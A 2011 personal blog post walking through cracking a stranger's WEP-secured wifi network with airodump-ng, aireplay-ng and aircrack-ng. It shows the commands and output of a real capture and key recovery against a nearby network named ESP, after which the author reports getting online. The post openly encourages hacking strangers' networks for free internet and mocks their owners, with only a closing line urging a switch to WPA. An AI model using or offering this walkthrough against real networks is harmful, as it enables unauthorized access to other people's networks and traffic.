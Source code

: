 Wep Wifi Hacking
################
:date: 2011-06-23 12:28
:author: Frank Lazzarini
:category: Linux
:tags: wifi, linux, hacking
:slug: wep-wifi-hacking

Finally a few days off work...due to the national holiday in Luxembourg
I took the opportunity to take a few extra days, to spend some time on
the coast of Belgium with my girlfriend. But don't you just hate that
when you are on vacation and you want to check your email, or get on
your facebook, just to post something / read something and you are not
in your country so you can't use your cell phone to get online cause
it's ridiculously expensive. So what you could do is scan you area for
**WEP wifis** and just **hack into them**. I am not saying that I did
this, I am just suggesting that it might be an idea to get easy internet
access.

**Please respect the privacy of the fool you are about to hack.**

As for hardware I recommend a **Alfa AWUS036HCW Usb Wifi Adapter** which
works great on linux and supports Monitor mode. The network card that
you are going to use has to support the so called **monitor** mode. In
monitor mode you receive all the traffic on a wifi network much like
using a hub instead of a switch on a wired network, or much like
promiscuous mode on ethernet adapters. `Read more`_.

.. image:: /static/images/2011-06-23_wep-wifi-hacking.jpg

The tool that we are going to use is mainly `Aircrack-ng`_ which works
perfectly for cracking WEP networks. Install it on your distro or just
use `Backtrack`_ a live cd that has everything you need and more.

After arriving and unpacking and after my girlfriend fell asleep I
thought it was time to put the my Alfa Wifi Antenna outside the balcony
and start scanning. Earlier whilst walking down a few alleys I took out
my Android phone and switched on the wifi, and look **everywhere** there
are **WEP** Wifi Networks, unbelievable how many ppl don't secure their
wlans here. Well back to the attack. I have the antenna set up and look
what I get ... (I removed the mac addresses for privacy reasons)

::

    # airodump-ng

    CH 13 ][ Elapsed: 4 mins ][ 2011-06-23 00:53                                        
                                                                                                                                                                                   
    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                                                                                    
                                                                                                                                                                                   
    xx:xx:xx:xx:xx:xx   -1        0        4    0 158  -1   OPN                                                                                                          
    xx:xx:xx:xx:xx:xx  -56      153        3    0   1  54e. OPN              bbox2-bd40                                                                                              
    xx:xx:xx:xx:xx:xx  -59      198        2    0   6  54e. WEP  WEP         dlink                                                                                                    
    xx:xx:xx:xx:xx:xx  -62      155        0    0  11  54e. WEP  WEP         scarlet_wifi_31404                                                                                      
    xx:xx:xx:xx:xx:xx  -62      131        2    0   6  54   WEP  WEP         wifi15_101                                                                                              
    xx:xx:xx:xx:xx:xx  -62      193        0    0   6  54 . OPN              WiFi_20                                                                                                  
    xx:xx:xx:xx:xx:xx  -63      179        0    0   1  54e. WEP  WEP         ESP                                                                                                    
    xx:xx:xx:xx:xx:xx  -65      215        0    0   6  54   WEP  WEP         wifi31c3                                                                                                
    xx:xx:xx:xx:xx:xx  -67       21        0    0   6  54e. WEP  WEP         bbox2-0210                                                                                              
    xx:xx:xx:xx:xx:xx  -67       56        0    0   6  54e. WEP  WEP         bellon                                                                                                  
    xx:xx:xx:xx:xx:xx  -67       31        0    0   6  54 . WEP  WEP                                                                                                     
    ....

Amazing how many networks I can see with this, well the best a lot of
them are WEP secured ... haahaa Paradise ... Free Internet everywhere
.... let's start attacking. I chose the wifi named **ESP**. Let's
start....

::

    # airodump-ng -w wep -c 1 --bssid xx:xx:xx:xx:xx:xx wlan1

    CH  1 ][ Elapsed: 8 s ][ 2011-06-23 00:57                                        
                                                                                                   
    BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                
                                                                                                   
    xx:xx:xx:xx:xx:xx  -60  75       65        0    0   1  54e. WEP  WEP         ESP                  
                                                                                                   
    BSSID              STATION            PWR   Rate    Lost  Packets  Probes      

Alright leave this running and open up a new console and let's
**associate** with the Access Point using **aireplay-ng**.

::

    # aireplay-ng -1 0 -a xx:xx:xx:xx:xx:xx wlan1
    No source MAC (-h) specified. Using the device MAC (yy:yy:yy:yy:yy:yy)
    00:59:25  Waiting for beacon frame (BSSID: xx:xx:xx:xx:xx:xx) on channel 1

    00:59:25  Sending Authentication Request (Open System) [ACK]
    00:59:25  Authentication successful
    00:59:25  Sending Association Request [ACK]
    00:59:25  Association successful :-) (AID: 1)

Awesome it worked right away stupid Access Point .... let's start
capturing some so called **IVs**.

::

    # aircrack-ng wep-01.cap
    Opening wep-01.cap
    Read 11762029 packets.

      #  BSSID              ESSID                     Encryption

      1  xx:xx:xx:xx:xx:xx  ESP                       WEP (2098301 IVs)

    Choosing first network as target.

    Opening wep-01.cap
    Attack will be restarted every 5000 captured ivs.
    Starting PTW attack with 2104125 ivs.
                            KEY FOUND! [ 5B:BD:41:6A:BF ]
           Decrypted correctly: 100%

And we are online, great. Now let's disconnect again, I only connected
once for the sake of trying it out. But this is just how simple and easy
it is with WEP secured wifi networks. Hope this is a lesson for all of
you out there still using WEP as encryption on your wifi.

**Change it to at least WPA right away**.

Happy hacking and happy holiday to all of you.

.. _Read more: http://en.wikipedia.org/wiki/Monitor_mode
.. _Aircrack-ng: http://www.aircrack-ng.org/
.. _Backtrack: http://www.backtrack-linux.org/
